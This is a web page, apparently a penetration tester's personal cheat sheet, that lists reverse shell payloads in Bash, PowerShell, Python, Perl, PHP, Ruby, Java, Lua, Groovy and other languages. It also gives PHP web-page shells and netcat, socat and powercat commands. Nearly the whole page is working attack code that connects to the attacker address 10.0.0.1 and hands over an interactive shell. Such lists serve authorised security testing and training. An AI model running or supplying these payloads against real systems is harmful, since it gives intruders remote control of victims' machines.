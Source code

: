 _[<-- Home](https://flast101.github.io)_

# Reverse Shell Cheat Sheet

You can find them all around the internet. I couldn't find them all in one place, so I write them down here. Don't hesitate to tell me if you find some more and I will add them to this list.

* * * 
## One-liners

**Bash**


```
bash -i >& /dev/tcp/10.0.0.1/666 0>&1
```   

_or_    

```
0<&196;exec 196<>/dev/tcp/10.0.0.1/666; sh <&196 >&196 2>&196
```

_or_    

```
bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'
```

**PowerShell** 

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



**Python for Linux**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.10",666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
_or_
```
__import__("os").system("bash+-c+'bash+-i+>& /dev/tcp/10.0.0.10/666 0>&1'")
```


**Python for Windows**

```
exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```
_or_
```
python -c 'exec("""import os, socket, subprocess, threading, sys\ndef s2p(s, p):\n    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()\ndef p2s(s, p):\n    while True: s.send(p.stdout.read(1).encode())\ns=socket.socket(socket.AF_INET, socket.SOCK_STREAM)\nwhile True:\n    try: s.connect(("10.0.0.1",666)); break\n    except: pass\np=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)\nthreading.Thread(target=s2p, args=[s,p], daemon=True).start()\nthreading.Thread(target=p2s, args=[s,p], daemon=True).start()\ntry: p.wait()\nexcept: s.close(); sys.exit(0)""")
```


**Perl**

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


**PHP**

```php
php -r '$sock=fsockopen("10.0.0.1",666);exec("/bin/sh -i <&3 >&3 2>&3");'
```


**Ruby**

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",666).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```


**Java**

```java
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/666;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

**Lua**

```lua
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('10.0.0.1',666);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();" 
```

**Telnet**

```
telnet localhost 443 | /bin/sh | telnet localhost 444
```


**Xterm**

```
xterm -display 10.0.0.1:1
```

* * * 


## PHP Web Pages

**Linux**
~~~
<?php echo shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'")?>
~~~

**Windows**

```
<?php echo shell_exec("powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -Name System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"")?>
```

* * *

## Tools

**Netcat**

```
nc -e /bin/sh 10.0.0.1 666
```

**Netcat without -e**

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 666 > /tmp/f
```

**Socat**

```
user@ubuntu:~$ socat - TCP4:10.0.0.1:4444 EXEC:'/bin/bash -li'
C:\> socat TCP4:10.0.0.1:666 EXEC:'cmd.exe'
```


**Powercat**

```
powercat -c 10.0.0.1 -p 666 -e cmd.exe
```

* * *
## Others

**Powershell**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',666);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```


**Python for Linux**

```python
#!/usr/bin/env python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",666))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**Python for Windows**

```python
import os, socket, subprocess, threading, sys

def s2p(s, p):
    while True:p.stdin.write(s.recv(1024).decode()); p.stdin.flush()

def p2s(s, p):
    while True: s.send(p.stdout.read(1).encode())

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
while True:
    try: s.connect((10.0.0.1, 666)); break
    except: pass

p=subprocess.Popen(["powershell.exe"], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE, shell=True, text=True)

threading.Thread(target=s2p, args=[s,p], daemon=True).start()

threading.Thread(target=p2s, args=[s,p], daemon=True).start()

try: p.wait()
except: s.close(); sys.exit(0)

try:
    p.wait()
except KeyboardInterrupt:
    s.close()
```

**Groovy**

```groovy
String host="10.0.0.1";
int port=1234;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**PHP**

The very good Pentestmonkey [php reverse shell](https://github.com/flast101/reverse-shell-cheatsheet/blob/master/php-reverse-shell.php).


Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_


<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>




